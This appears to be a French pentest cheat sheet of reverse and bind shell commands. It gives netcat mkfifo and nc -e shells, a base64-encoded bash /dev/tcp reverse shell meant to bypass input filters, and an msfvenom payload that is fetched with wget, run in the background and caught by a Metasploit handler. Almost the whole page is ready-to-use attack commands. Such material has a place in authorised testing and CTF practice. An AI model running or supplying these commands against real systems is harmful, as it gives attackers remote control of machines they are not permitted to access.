 # Shells

> Exemples de différents types de reverse shells

### 1. Reverse shell Netcat OpenBSD

- Machine cible : 

  ```bash
  $ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4242 >/tmp/f
  ```

- Hôte :

  ```bash
  $ nc -lvp 4242
  ```

### 2. Bind shell

```bash
$target nc -e /bin/sh -lvp 3333
$host nc <ip_target> 3333
```

### 3. Reverse shell sans caractère spéciaux (bypass filter)

```bash
#B64 encode the shell like: echo "bash -c 'bash -i >& /dev/tcp/10.8.4.185/4444 0>&1'" | base64 -w0
$ echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNi80NDQ0IDA+JjEnCg== | base64 -d | bash 2>/dev/null
```

### 4. Générateur de reverse shells

- https://www.revshells.com/

### 5. Reverse shell meterpreter:

```bash
# A générer selon l'architecture ciblée
# Génération du reverse shell binaire 
$ msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP_HOTE> LPORT=<PORT_HOTE> -f elf

# Envoi du fichier et lancement en background (diffère selon la RCE)
`wget http://<IP_HOTE:PORT_HOTE>/rev -O /tmp/rev|chmod +x /tmp/rev|/tmp/rev &`

# Lancement d'un multi-handler pour recevoir la connexion
$ msfconsole -q
msf6> use exploit/multi/handler
msf6> set payload linux/x64/shell/reverse_tcp # Bien mettre le même payload que celui généré via msfvenom !!!
msf6> set LHOST <IP_HOTE>
msf6> set LPORT <PORT_HOTE>
msf6> exploit
```

